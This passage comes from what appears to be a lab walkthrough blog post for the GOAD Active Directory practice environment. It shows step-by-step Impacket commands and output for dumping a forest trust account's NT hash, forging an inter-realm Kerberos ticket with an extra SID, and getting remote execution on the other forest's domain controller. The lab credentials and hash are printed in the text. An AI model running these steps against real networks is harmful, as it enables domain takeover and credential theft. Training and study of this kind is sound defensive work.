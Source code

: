 ![trust_external_golden_exploit.png](/assets/blog/GOAD/trust_external_golden_exploit.png)

## Trust ticket with external forest ( essos -> sevenkingdoms)

- Excatly like we done before on domain forest we can do this on external forest but just like with the golden ticket we need the sid history enabled to exploit.

- Find the domain sid with lookupsid.py
  - essos SID : S-1-5-21-2203133648-1386395927-1390703624
  - sevenkingdoms SID: S-1-5-21-1409754491-4246775990-3914137275

```
secretsdump -just-dc-user 'SEVENKINGDOMS$' essos.local/daenerys.targaryen:'BurnThemAll!'@192.168.56.12
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
SEVENKINGDOMS$:1105:aad3b435b51404eeaad3b435b51404ee:285b80ddc1ad529f27403804e75a9ab1:::
...
```

- Create the inter-realm tgt ticket 

```bash
ticketer.py -nthash 285b80ddc1ad529f27403804e75a9ab1 \
 -domain-sid S-1-5-21-2203133648-1386395927-1390703624 \
 -domain essos.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-1132 \
 -spn krbtgt/sevenkingdoms.local trustdragon
```

![trust_external_trustticket1.png](/assets/blog/GOAD/trust_external_trustticket1.png)

- Ask a service ticket for kingslanding cifs

```bash
export KRB5CCNAME=/workspace/trusts/external/trustdragon.ccache
getST.py -k -no-pass -spn cifs/kingslanding.sevenkingdoms.local \
 sevenkingdoms.local/trustdragon@sevenkingdoms.local -debug
```

![trust_external_trustticket2.png](/assets/blog/GOAD/trust_external_trustticket2.png)

- And enjoy (secretsdump will work too)

```bash
export KRB5CCNAME=/workspace/trusts/external/trustdragon@sevenkingdoms.local.ccache
smbexec.py -k -no-pass trustdragon@kingslanding.sevenkingdoms.local -debug
```

![trust_external_trustticket3.png](/assets/blog/GOAD/trust_external_trustticket3.png)

## Exploit acl with external trust golden ticket
